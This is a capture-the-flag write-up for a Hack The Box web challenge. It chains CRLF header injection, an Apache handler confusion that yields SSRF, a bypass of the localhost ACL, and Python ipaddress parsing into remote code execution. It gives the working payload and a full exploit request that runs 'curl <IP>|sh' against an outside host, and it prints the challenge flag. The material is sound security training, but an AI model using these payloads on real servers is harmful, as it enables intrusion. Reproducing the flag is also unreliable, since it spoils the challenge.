 # Cyber Attack
Tags: #apache #cgi #crlf #parser #command-injection 
## TLDR
Reponse header injection -> SSRF -> ACL bypass -> IP parser bypass & Command Injection -> RCE
## Description
> Welcome, Brave Hero of Eldoria. You’ve entered a domain controlled by the forces of Malakar, the Dark Ruler of Eldoria. This is no place for the faint of heart. Proceed with caution: The systems here are heavily guarded, and one misstep could alert Malakar’s sentinels. But if you’re brave—or foolish—enough to exploit these defenses, you might just find a way to weaken his hold on this world. Choose your path carefully: Your actions here could bring hope to Eldoria… or doom us all. The shadows are watching. Make your move.
## Overview
Simple website that calls a cgi script that makes a ping to a specified domain.
## Road to flag
The flag is in a file with a random name `mv /flag.txt /flag-$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 15).txt` -> RCE
## Code review
There are 2 cgi python scripts:
- `attack-domain`
Has an response header injection vulnerability due to `print(f'Location: ../?error=Hey {name}, watch it!')`.
The regex that checks the domain name seems robust so there's no command injection.
```python
#!/usr/bin/env python3

import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

- `attack-ip`
This script is similar to the previous one, but parses the ip with `ip_address`. Can this allow command injection?
```python
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

It's accessible only from localhost:
`apache2.conf`
```conf
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```

## Exploitation

- Response header injection (CRLF) to Authorization bypass

In Apache, handlers are taken from the `content-type` header (or at least in older versions). Here there's a detailed explanation -> https://blog.orange.tw/posts/2024-08-confusion-attacks-en/
```c
AP_CORE_DECLARE(int) ap_invoke_handler(request_rec *r) {

    // [...]

    if (!r->handler) {
        if (r->content_type) {
            handler = r->content_type;
            if ((p=ap_strchr_c(handler, ';')) != NULL) {
                char *new_handler = (char *)apr_pmemdup(r->pool, handler,
                                                        p - handler + 1);
                char *p2 = new_handler + (p - handler);
                handler = new_handler;

                /* exclude media type arguments */
                while (p2 > handler && p2[-1] == ' ')
                    --p2; /* strip trailing spaces */

                *p2='\0';
            }
        }
        else {
            handler = AP_DEFAULT_HANDLER_NAME;
        }

        r->handler = handler;
    }

    result = ap_run_handler(r);
```

So with the header injection it's possible to inject `Content-Type` and call an arbitrary handler.
The `proxy` handler is interesting because allows to turn this vulnerability into an **SSRF**.

With the SSRF I can bypass the localhost restrictions and get access to `/cgi-bin/attack-ip`.

Payload:
`\r\nLocation:/ooo\r\n\r\nContent-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip\r\n\r\n`

- IP parsing flaw to RCE
After some testing, we found that the `ipaddress` python's library is vulnerable, has a flaw in parsing IPV6:

```python
import ipaddress
ip = ipaddress.ip_address("1::%${curl IP | sh}")
# 1::%${curl IP |sh}
```

This flaw enables RCE in the `attack-ip` script.

- Exploit request: `GET /cgi-bin/attack-domain?target=aa&name=%0d%0aLocation%3a%20%2fa%0d%0aContent-Type%3a%20proxy%3ahttp%3a%2f%2f127.0.0.1%2fcgi-bin%2fattack-ip%3ftarget%3d%3a%3a1%25%24(curl%2b37.27.184.43%7csh)%26name%3dx%0d%0a%0d%0a`


Flag: `HTB{h4ndl1n6_m4l4k4r5_f0rc35}`